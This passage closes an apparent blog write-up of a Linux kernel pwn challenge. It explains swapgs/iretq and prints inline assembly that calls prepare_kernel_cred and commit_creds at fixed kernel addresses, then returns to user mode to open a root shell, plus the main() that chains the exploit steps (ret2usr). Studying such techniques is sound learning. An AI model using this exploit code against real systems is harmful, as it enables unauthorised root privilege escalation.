 And one more thing, on x86_64, one more instruction called `swapgs` must be called before `iretq`. The purpose of this instruction is to also swap the `GS` register between `kernel-mode` and `user-mode`. With all those information, we can finish the code to gain root privileges, then return to `user-mode`:

```
unsigned long user_rip = (unsigned long)get_shell;

void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}


```

We can finally call those pieces that we have crafted one by one, in the correct order, to open a root shell:

```
int main() {
    save_state();
    open_dev();
    leak();
    overflow();  
    puts("[!] Should never be reached");
    return 0;
}


```

So that concludes my first post on my Linux kernel exploitation learning process. In this post, I have demonstrated the way to setup the environment for a Linux kernel pwn challenge, and also the simplest technique in kernel exploitation: `ret2usr`.
